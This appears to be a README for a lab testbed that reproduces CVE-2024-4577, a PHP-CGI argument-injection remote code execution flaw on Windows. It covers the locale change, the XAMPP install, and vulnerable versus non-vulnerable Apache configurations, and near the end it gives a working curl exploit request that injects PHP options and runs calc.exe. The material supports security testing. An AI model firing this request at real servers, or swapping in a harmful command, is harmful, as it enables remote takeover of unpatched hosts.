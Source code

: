 # PHP RCE Via CGI Argument Injection (CVE-2024-4577)

This file describes how to setup a windows php environment that is
vulnerable (and not vulnerable) to CVE-2024-4577.

## Vulnerability Details
When using Apache and PHP-CGI on Windows, if the system is set up to use certain code pages, Windows may use "Best-Fit" behavior to replace characters in command line given to Win32 API functions. PHP CGI module may misinterpret those characters as PHP options, which may allow a malicious user to pass options to the PHP binary being run, allowing to achieve RCE.

This vulnerability affects the following versions of PHP installed on the Windows operating system:

**Affected PHP Versions**
* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

**Affected Windows Versions**
* Windows 10
* Windows 11

## Testbed Setup
The setup has been tested on the following Windows versions in a virtualized environment:

* Windows 10 `10.0.19045 N/D build 19045`
* Windows 11 `10.0.22631 N/A Build 22631`

The setup works in three steps:

1. The system locale of the operating system is changed to Japanese. 

2. A specific version of XAMPP is downloaded (8.1.25 / PHP 8.1.25)

3. The apache configuration is changed to enable or disable PHP-CGI.

To have a vulnerable configuration, the PHP-CGI feature must be enabled.

To have a non-vulnerable configuration, the PHP-CGI feature must be disabled.

### 1. Change system locale

The following powershell code can be used to change the system locale to Japanese

```
Set-WinSystemLocale -SystemLocale "ja-JP"
```

After the system locale has been changed, a restart is needed to apply the changes

```
Restart-Computer
```

To check that the Japanese locale has been correctly set, execute the
following powershell command, and make sure to obtain the value `932`.

```
powershell.exe [Console]::OutputEncoding.WindowsCodePage
```

If the `Set-WinSystemLocale` did not work, you can change the system
locale by going in the following menu.

```
Win + R
type "control" and press enter

> Clock and Region
> Region
> Administrative
> Change System Locale
> Japanese (Japan)
```

The required steps are shown in the following screenshot.

![image](img/windows-locale.png)

### 2. Download XAMPP

The next step then is to download version `8.1.25` of the XAMPP
project from the following URL:
- https://www.apachefriends.org/download.html

The following screenshot shows the version to download.

![image](img/xampp-download.png)

Notice the SHA1 fingerprint of the installer, which should be
`51535424fe7a89ed27e566ac4d357e9d7930cef4` and can be computed with
the following command.

```
Get-FileHash -Path .\xampp-windows-x64-8.1.25-0-VS16-installer.exe -Algorithm SHA1
```

During the XAMPP installation process, it is necessary to install only
the `apache` and `php` components.

![image](img/xampp-install.png)

After the installation has finished, start the XAMPP controller by
executing the `xampp-control.exe` program within the main
installation folder.

![image](img/xampp-control.png)

At this point, it is possible to choose whether to create a vulnerable testbed or a not vulnerable tested.

### 3.1 Vulnerable Testbed Setup
To create a vulnerable testbed, modify the default configuration of Apache. 

Specifically, modify the `httpd-xampp.conf` as shown in the following screenshot.

![image](img/xampp-access-conf.png)

and uncomment the PHP-CGI section.

![image](img/xampp-vulnerable-conf.png)

Then press start, and the server will listen on the port 8080. 

The following request will exploit the vulnerability and trigger the RCE, spawning a `calc.exe` on the windows target. Change `<IP>` with the IP address of the server.

```
curl -X POST "http://<IP>/?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('calc.exe');?>"
```

### 3.2 Non-Vulnerable Testbed Setup
To create a non-vulnerable testbed, leave the default configuration as it is, and simply start the server. If the configuration has been previously modified, make sure to comment the PHP-CGI section in order to disable it.

![image](img/xampp-not-vulnerable-conf.png)

## References
* https://nvd.nist.gov/vuln/detail/cve-2024-4577
* https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/
* https://github.com/watchtowrlabs/CVE-2024-4577

